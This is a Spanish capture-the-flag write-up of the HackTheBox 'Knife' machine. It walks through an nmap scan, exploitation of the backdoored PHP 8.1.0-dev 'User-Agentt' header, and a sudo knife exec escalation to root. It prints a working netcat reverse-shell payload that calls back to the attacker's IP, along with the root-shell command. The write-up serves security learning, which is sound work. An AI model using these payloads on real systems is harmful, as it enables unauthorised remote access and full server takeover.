 ```yaml
---
title: HackTheBox Knife
date: 2021-08-28 12:00:00 -0400
image: 
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/knife/banner.jpeg
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [zerodium, web, cms, rce]
---
```



**Machine IP**: 10.10.10.242

**DATE**  : 28/08/2021


## Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/knife/matrix.png)


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes
## Nmap 
```console
┌──(j3sm0n㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.242                                                                 148 ⨯ 1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 02:03 EDT
Nmap scan report for 10.10.10.242
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.02 seconds
```
Como vemos tiene el puerto 80 abierto, que es el http,  veremos en el navegador de que se trata y analizaremos la web 

## Wappalyzer
Usando la extensión wappalizer para identificar las tecnologías usadas en la web, encontramos que la web está alojado en servidor apache 2.4.41 y está construido en `php 8.1.` 

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/wapp.png)

### Method 1
Al hacer un poco de research encontramos la siguiente vulnerabilidad [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/49933) , que se aprovecha del backdoor que fue fue dejado en esta version de PHP , haciendo uso del `User-Agent`, para ejecutar comandos.
El siguiente exploit utiliza una puerta trasera para proporcionar un pseudo shell en el host.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/exploit.png)
 
### Method 2
Pero para no estar solo ejecutando el exploit y obteniendo una shell así de facil, haremos uso de `burpsuite` y `netcat` para establecer una shell reversa en nuestra maquina.

Estableciendo un listener en nuestra maquina

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/netcat.png)

## BurpSuite
Como ya sabemos que la vulnerabilidad está en agregar el User-Agent, mandaremos al repeater para ejecutar la consulta agregando `User-Agentt: zerodiumsystem('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc ip puerto >/tmp/f');` reemplazando la ip y el puerto por tu ip y establecido en netcat, este es un payload sacado de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), intenté con el netcat normal, pero al parecer la maquina tenia otra versión de netcat y la de busybox me funcionó.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/burp.png)

Mandamos la consulta y game over, obtenemos una `shell` con el usuario `james` y obtenemos el `user.txt`

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/shelljames.png)

## Escalamiento de privilegios
Luego de obtener acceso a una Shell con el usuario james, ejecutamos el comando
 ```bash
sudo -l
``` 

Para saber que comandos se pueden ejecutar con permisos `SUID`, esto habilitaría la ejecución con permisos `root`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/knife/sudol.png)

Vemos que se puede ejecutar el comando knife con permisos de root, pero no sabemos de que se trata este comando, entonces listaremos las opciones que tiene este comando y encontramos una opción llamada `exec` que es un comando de ejecución, con el cual se puede invocar una shell.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/knifeexec.png)

Ejecutamos el comando para invocar una shell
```bash
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```
![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/root.png)

**Game over!
Obtenemos acceso root y el root.txt.**

Gracias por leer y happy hacking.